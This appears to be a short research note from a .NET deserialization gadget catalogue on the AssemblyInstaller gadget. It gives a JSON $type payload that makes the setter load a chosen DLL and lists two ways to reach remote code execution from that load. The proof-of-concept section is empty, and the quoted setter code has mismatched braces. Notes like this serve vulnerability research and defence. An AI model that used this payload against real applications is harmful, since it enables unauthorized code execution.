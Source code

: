 # Payload

```json
{"$type":"System.Configuration.Install.AssemblyInstaller,
System.Configuration.Install, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=b03f5f7f11d50a3a",
"Path":"file:///c:/somePath/MixedLibrary.dll"}
```

# Source code

```csharp
// System.Configuration.Install.AssemblyInstaller
public void set_Path(string value)
{
        if (value == null)
        {
               this.assembly = null;
        this.assembly = Assembly.LoadFrom(value);
} }
```

# Attack vector

Execute payload on assembly load. There can be used 2 ways for RCE:

* We can put our code in DllMain() function of Mixed Assembly.  See [implications-of-loading-net-assemblies](https://blog.cylance.com/implications-of-loading-net-assemblies)
* We can put our code in static constructor of own Type derived from System.Configuration.Install.Installer and annotated as [RunInstallerAttribute(true)]. In this case we will need to call InitializeFromAssembly(). It can be done using the HelpText getter.  See [system.componentmodel.runinstallerattribute(v=vs.110).aspx](https://msdn.microsoft.com/en-us/library/system.componentmodel.runinstallerattribute(v=vs.110).aspx)

# Requirements

There is no additional requirement if assembly with payload is on the local machine but in case of remote resources, newer .Net Framework versions may have some additional security checks.

# PoC

TODO